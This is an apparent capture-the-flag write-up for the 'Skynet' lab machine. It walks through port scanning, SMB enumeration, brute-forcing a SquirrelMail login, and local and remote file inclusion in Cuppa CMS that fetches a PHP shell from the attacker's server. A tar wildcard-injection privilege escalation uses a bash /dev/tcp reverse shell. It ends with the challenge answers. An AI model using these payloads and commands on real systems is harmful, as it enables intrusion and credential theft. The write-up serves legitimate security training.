 # Skynet

### Deploy and compromise the vulnerable machine!
Initial scan: 

      nmap 10.10.210.244 -n -Pn -p- --min-rate=1000 
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 13:58 CEST
      Nmap scan report for 10.10.210.244
      Host is up (0.046s latency).
      Not shown: 65529 closed tcp ports (conn-refused)
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      110/tcp open  pop3
      139/tcp open  netbios-ssn
      143/tcp open  imap
      445/tcp open  microsoft-ds
      
      Nmap done: 1 IP address (1 host up) scanned in 66.63 seconds

Let's now run a more targeted scan: 

    nmap 10.10.210.244 -p22,80,110,139,143,445 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 14:28 CEST
    Nmap scan report for 10.10.210.244
    Host is up (0.047s latency).
    
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Skynet
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING RESP-CODES TOP
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: more listed OK have LITERAL+ ENABLE LOGINDISABLEDA0001 IDLE SASL-IR Pre-login capabilities IMAP4rev1 LOGIN-REFERRALS ID post-login
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2024-09-22T07:29:18-05:00
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2024-09-22T12:29:18
    |_  start_date: N/A
    |_clock-skew: mean: 1h40m02s, deviation: 2h53m12s, median: 2s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.42 seconds


The web page shows a form to be compiled, but it doesn't seem to do anything really <br />
![image](https://github.com/user-attachments/assets/59d941f8-a546-4dfb-b28a-2cb96b503cf1)<br />
A directory enumeration reveals some interesting directories: <br />
![image](https://github.com/user-attachments/assets/3fdd81c1-533f-428c-a568-b4a0ba575516)<br />
But for each of them we get a 403 Forbidden, except the last one, squirrelmail, lol. <br />
![image](https://github.com/user-attachments/assets/2c648ddb-3d5b-4444-a632-79cd2cdba4bd)<br />
This version is vulnerable to RCE by an authenticated attacker ([source](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html)): <br />
![image](https://github.com/user-attachments/assets/140dbc53-b486-4fee-ba8c-a38ffe37e645)<br />
I think the next step is to find a way to authenticate, we need to find some credentials. Let's try enumerating SMB shares. I used `enum4linux` for this task, and found something interesting: <br />
![image](https://github.com/user-attachments/assets/c067f4c0-3a22-4ef9-94f3-e3202e2221af)<br />
The target system has two local users: nobody and milesdyson. The output also shows the enumerated shares: <br />
![image](https://github.com/user-attachments/assets/9b3b21ed-a5b7-46b9-9360-64f85dfa4dc6)<br />
Let's try to access the anonymous share anonymously: `smbclient //10.10.190.140/anonymous -U anonymous -p 445`. I found an interesting file: <br />
![image](https://github.com/user-attachments/assets/962ab4d0-2a3c-4509-88e8-64764f95380b)<br />
Also if we access the logs folder, we are provided with 3 txt files: <br />
![image](https://github.com/user-attachments/assets/9e0de88a-536d-490d-91b4-7515b9b1357b)<br />
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a wordlists. At this point I think it's clear what we have to do: let's try to access Miles share using the given wordlist. I'll use hydra: `hydra -l milesdyson -P log1.txt smb://10.10.190.140 ` <br />
![image](https://github.com/user-attachments/assets/b6845aa7-7196-40ca-9ed3-025b9d50d922)<br />
Nope, this is not the right path. Next thing I wanna try is to bruteforce the squirrel mail login form using "milesdyson" as username, and the given wordlist as passwords. So first of all intercept the request using burpsuite, and set the password field as the target for intruder: <br />
![image](https://github.com/user-attachments/assets/3de3023a-f9e9-40a0-a5d2-ea27ed442b3e)<br />
Now go on "Payloads" and load our given wordlist as payload: <br />
![image](https://github.com/user-attachments/assets/c4fb84d3-25c9-45f8-9a3a-02d928954e82)<br />
Now start the attack. The very first thing I notiece is that the payload `cyborg007haloterminator` has different response parameters with respect to other payloads: <br />
![image](https://github.com/user-attachments/assets/62b45807-3564-4391-b06b-c8c15f8c147d)<br />
so I try to log in as `milesdyson:cyborg007haloterminator`, and it worked! <br />
![image](https://github.com/user-attachments/assets/dd896870-0b25-45bb-b8b9-04a8b9443494)<br />
There it is, in the first email there's the new SMB password for Miles: <br />
![image](https://github.com/user-attachments/assets/cd1e6d37-4126-46a6-8fd6-83471c3c20eb)<br />
Let's log in: `smbclient //10.10.190.140/milesdyson -U milesdyson -p 445`. There's a bunch of scientific pdf files, Miles must be some sort of AI teacher or something. After navigating a bit inside the share, i found a file named "important.txt" inside a directory called "notes": <br />
![image](https://github.com/user-attachments/assets/0e80c450-98f8-4f50-8f58-58d6ec257aa8)<br />
Let's download it and see what's in it. <br />
![image](https://github.com/user-attachments/assets/0ca23a05-0ed0-4624-b8ea-d255e58b69dc)<br />
Damn, Miles really cares about his wife. Anyway, let's access `http://target_IP/45kra24zxs28v3yd`: <br />
![image](https://github.com/user-attachments/assets/7e7a4d45-f47c-446f-aa17-f660336d81ee)<br />
Oh yes he is infact an AI specialist. The page itself seems empty, the source code doesn't contain any comments. Let's try some directory enumeration with `obuster dir -u http://10.10.190.140/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Yup, there's something there <br />
![image](https://github.com/user-attachments/assets/8cf719c1-1d90-4971-a17e-7f9ed064ede8)<br />
At this point I was stuck for a while, I didn't find anything, default credentials, sql Injection, etc. After a while I discovered that this version is vulnerable to File inclusion, even anauthenticated, [here](https://www.exploit-db.com/exploits/25971). <br />
![image](https://github.com/user-attachments/assets/52294868-bdee-44a7-86b2-ba222c2ea82d)<br />
So for example if we try to access `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, it actually works and shows us the /etc/passwd file. <br />
![image](https://github.com/user-attachments/assets/3dd36bb6-f73b-45fa-8feb-e089289ce502)<br />
Let's try downloading the configuration file: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php`. We get the following base64 encoded string in return. Decode it: 

      <?php 
      	class Configuration{
      		public $host = "localhost";
      		public $db = "cuppa";
      		public $user = "root";
      		public $password = "password123";
      		public $table_prefix = "cu_";
      		public $administrator_template = "default";
      		public $list_limit = 25;
      		public $token = "OBqIPqlFWf3X";
      		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      		public $upload_default_path = "media/uploadsFiles";
      		public $maximum_file_size = "5242880";
      		public $secure_login = 0;
      		public $secure_login_value = "";
      		public $secure_login_redirect = "";
      	} 
And we got another set of credentials, `root:password123` These might be usefull later. Now let's try to include a malicious file from our own machine, let's call it shell.php (the code is provided in the file "shell.php" of this folder). Open a netcat listener `nc -lnvp 4444`, set up a web server with `python3 -m http.server 8000`, and upload it to the target machine with the following URL: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.85.53:8000/shell.php`. There we go: <br />
![image](https://github.com/user-attachments/assets/f97120a9-1b82-4629-a34e-9a4818959216)<br />
![image](https://github.com/user-attachments/assets/a363b8d5-dd59-46cc-9082-160316c68c6b)<br />
And we have our user flag (the answers are all at the end of the writeup). Now let's stabilize the shell: 

            python3 -c 'import pty;pty.spawn("/bin/bash")'
            CTRL + Z
            stty raw -echo; fg
            export TERM=xterm
After some enumeration(I used linpeas), I found an interesting cron job: <br />
![image](https://github.com/user-attachments/assets/7eda4bd9-006b-45c3-8502-599cbae34fee)<br />
It runs every minute and it is owned by root. We also have read access to that file: <br />
![image](https://github.com/user-attachments/assets/acc04231-636e-448c-ab41-108fa5abd949)<br />
The command `tar cf /home/milesdyson/backups/backup.tgz *` will run a backup of all the files in the current directory. Since we are www-data, we have access to that directory. We can exploit this by using tar wildcards; move to `/var/www/html` and run the following commands: 

      echo "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" > shell.sh
      touch -- '--checkpoint=1'
      touch -- '--checkpoint-action=exec=bash shell.sh'
A "checkpoint" is essentially a tar option that tells tar to stop and do something. In particular we are telling tar to execute the reverse shell script. So open a netcat listener `nc -lnvp 4445` and wait a minute: <br />
![image](https://github.com/user-attachments/assets/cb10878b-3537-45c6-8a9c-dbb805c23b2d)<br />
We are root :)

                                                            
- What is Miles password for his emails? `cyborg007haloterminator`
- What is the hidden directory? `/45kra24zxs28v3yd`
- What is the vulnerability called when you can include a remote file for malicious purposes? `remote file inclusion `
